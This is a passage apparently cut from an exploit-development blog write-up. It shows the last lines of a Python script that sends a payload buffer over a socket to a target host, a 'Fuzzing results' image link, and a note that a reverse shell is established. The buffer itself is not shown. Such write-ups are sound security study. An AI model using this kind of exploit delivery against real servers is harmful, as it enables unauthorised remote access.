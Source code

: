```

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(buffer)
s.close()

print ("[+] Payload sent")
```
![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/savant_12.png?raw=true)

And it works! Reverse shell is established.

